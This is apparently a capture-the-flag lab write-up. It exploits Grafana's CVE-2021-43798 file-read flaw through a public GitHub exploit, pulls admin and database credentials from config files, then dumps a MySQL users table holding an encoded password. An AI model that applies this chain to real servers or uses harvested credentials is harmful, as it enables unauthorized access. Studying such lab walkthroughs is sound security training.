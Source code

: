 # Getting user

Ok, so we know we have access to the usual HTTP. But there's also a PPP and a MySQL service running. Wonder what's that...
Gobuster didn't return anything that I used, so I won't post the output. The web page wasn't useful either, just had a hint: "Use the developer account to SSH, and DevOps will give you the password." That sounds like we might need to find some creds... Let's try port 3000.

When we access http://10.10.11.183:3000/ it asks for a login for a service called "Grafana". There's also the version of that service, which is: v8.2.0. Let's look for an exploit.

After a quick google search, I found an exploit (CVE-2021-43798) which is an Unauthorized Arbitrary File Read. Grafana is vulnerable to this from 8.0.0-beta1 to 8.3.0.

I used https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798 to exploit grafana. After getting the files I found admin creds in grafana.ini. There's also a SQLite database. Which I used to find the creds to the MySQL database (data source in the backend).

Now we use the 


```
MySQL [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.082 sec)

MySQL [(none)]> use whackywidget;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [whackywidget]> SHOW TABLES;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.067 sec)

MySQL [whackywidget]> SELECT * FROM users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.063 sec)
```
